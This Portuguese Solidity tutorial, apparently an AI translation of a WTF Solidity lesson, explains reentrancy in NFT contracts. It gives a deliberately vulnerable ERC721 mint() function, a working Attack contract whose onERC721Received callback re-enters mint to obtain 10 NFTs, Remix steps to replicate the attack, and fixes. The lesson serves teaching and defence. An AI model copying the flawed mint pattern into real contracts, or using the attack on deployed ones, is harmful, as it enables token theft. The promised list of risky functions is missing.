

# Segurança do Contrato Solidity: S16. Ataque de Reentrada em NFT

Recentemente, tenho revisitado o aprendizado de Solidity para reforçar os detalhes e estou escrevendo um "Guia de Iniciação Rápida para Solidity" para iniciantes (os especialistas em programação podem procurar outros tutoriais). Será atualizado semanalmente com 1-3 palestras.

Twitter: [@0xAA_Science](https://twitter.com/0xAA_Science)

Comunidade: [Discord](https://discord.gg/5akcruXrsk) | [Grupo do WhatsApp](https://docs.google.com/forms/d/e/1FAIpQLSe4KGT8Sh6sJ7hedQRuIYirOoZK_85miz3dw7vA1-YjodgJ-A/viewform?usp=sf_link) | [Site oficial wtf.academy](https://wtf.academy)

Todo o código e tutoriais estão disponíveis no GitHub: [github.com/AmazingAng/WTFSolidity](https://github.com/AmazingAng/WTFSolidity)

-----

Nesta palestra, vamos falar sobre a vulnerabilidade de ataque de reentrada em contratos NFT e atacar um contrato NFT com falhas para criar 10 NFTs.

## Risco de Reentrada em NFT

Já discutimos em [S01 Ataque de Reentrada](../S01_ReentrancyAttack/readme_pt-br.md) que o ataque de reentrada é um dos ataques mais comuns nos contratos inteligentes, onde um invasor, por meio de uma vulnerabilidade no contrato (como a função `fallback`), faz chamadas repetidas ao contrato para transferir ativos ou criar muitas tokens. Quando se trata de transferir NFTs, eles não acionam as funções `fallback` ou `receive` dos contratos. Por que ainda há risco de reentrada?

Isso ocorre porque os padrões de NFT (ERC721/ERC1155) adicionaram uma verificação segura para garantir que os ativos de NFT não sejam acidentalmente enviados para um endereço inválido. Quando um NFT é transferido para um contrato, ele chama a função de verificação correspondente desse contrato, garantindo que esteja pronto para receber o ativo de NFT. Por exemplo, a função `safeTransferFrom()` do `ERC721` chama a função `onERC721Received()` do endereço de destino, o que pode ser explorado por um hacker para lançar um ataque.

Aqui estão as funções do `ERC721` e `ERC1155` que têm potencial para risco de reentrada:



## Exemplo de Vulnerabilidade

Vamos analisar um exemplo de contrato NFT com vulnerabilidade de reentrada. Este contrato `ERC721` permite a cada endereço criar um NFT gratuitamente, mas um ataque de reentrada pode permitir a criação de vários NFTs de uma só vez.

### Contrato com Vulnerabilidade

O contrato `NFTReentrancy` herda o contrato `ERC721` e possui 2 variáveis de estado principais: `totalSupply`, que rastreia o total de NFTs criados, e `mintedAddress`, que armazena os endereços que já criaram NFTs para evitar múltiplas criações. Ele possui 2 funções principais:
- Construtor: Inicializa o nome e o símbolo da coleção de NFTs para o `ERC721`.
- `mint()`: Função de criação, onde cada usuário pode criar um NFT gratuitamente. **Atenção: esta função apresenta uma vulnerabilidade de reentrada!**

```solidity
contract NFTReentrancy is ERC721 {
    uint256 public totalSupply;
    mapping(address => bool) public mintedAddress;
    
    // Construtor, inicializa o nome e símbolo da coleção NFT
    constructor() ERC721("Reentry NFT", "ReNFT"){}

    // Função de criação de NFT, cada usuário só pode criar 1 NFT
    // Tem vulnerabilidade de reentrada
    function mint() payable external {
        // Verifica se o endereço já criou um NFT
        require(mintedAddress[msg.sender] == false);
        // Incrementa o total de NFTs
        totalSupply++;
        // Cria o NFT
        _safeMint(msg.sender, totalSupply);
        // Registra o endereço que criou o NFT
        mintedAddress[msg.sender] = true;
    }
}
```

### Contrato de Ataque

O contrato `Attack` herda o contrato `IERC721Receiver` e possui 1 variável de estado `nft` que armazena o endereço do contrato NFT com vulnerabilidade. Ele possui 3 funções:
- Construtor: Inicializa o endereço do contrato NFT com vulnerabilidade.
- `attack()`: Função de ataque, que chama a função `mint()` do contrato NFT para iniciar o ataque.
- `onERC721Received()`: Função de retorno de chamada do ERC721 com código malicioso incorporado, que chama repetidamente a função `mint()` e cria 10 NFTs.

```solidity
contract Attack is IERC721Receiver{
    NFTReentrancy public nft; // Endereço do contrato NFT com vulnerabilidade

    // Inicializa o endereço do contrato NFT
    constructor(NFTReentrancy _nftAddr) {
        nft = _nftAddr;
    }
    
    // Função de ataque, inicia o ataque
    function attack() external {
        nft.mint();
    }

    // Função de retorno de chamada do ERC721, que chama a função mint repetidamente e cria 10 NFTs
    function onERC721Received(address, address, uint256, bytes memory) public virtual override returns (bytes4) {
        if(nft.balanceOf(address(this)) < 10){
            nft.mint();
        }
        return this.onERC721Received.selector;
    }
}
```

## Replicação no Remix

1. Implante o contrato `NFTReentrancy`.
2. Implante o contrato `Attack`, inserindo o endereço do contrato `NFTReentrancy` como parâmetro.
3. Chame a função `attack()` do contrato `Attack` para iniciar o ataque.
4. Chame a função `balanceOf()` do contrato `NFTReentrancy` para consultar a posse do contrato `Attack`. Você verá que ele possui 10 NFTs, com o ataque bem-sucedido.


## Métodos de Prevenção

Existem duas maneiras principais de prevenir ataques de reentrada: o modelo de Verificação-Impacto-Interação (checks-effect-interaction) e o uso de bloqueios de reentrada.

1. Modelo de Verificação-Impacto-Interação: Este modelo enfatiza que ao escrever funções, deve-se primeiro verificar se as variáveis de estado estão de acordo com os requisitos, em seguida, atualizá-las (por exemplo, saldo), e por último interagir com outros contratos. Podemos corrigir a função `mint()` vulnerável usando este modelo.

2. Bloqueio de Reentrada: É um modificador utilizado para evitar funções de reentrada. Recomendamos o uso do [ReentrancyGuard](https://github.com/OpenZeppelin/openzeppelin-contracts/blob/master/contracts/utils/ReentrancyGuard), fornecido pela OpenZeppelin.

## Conclusão

Nesta palestra, abordamos a vulnerabilidade de ataques de reentrada em contratos NFT e realizamos um ataque bem-sucedido a um contrato NFT com falhas, criando 10 NFTs. Atualmente, existem duas maneiras principais de prevenir ataques de reentrada: o modelo de Verificação-Impacto-Interação e o uso de bloqueios de reentrada.

<!-- This file was translated using AI by repo_ai_translate. For more information, visit https://github.com/marcelojsilva/repo_ai_translate -->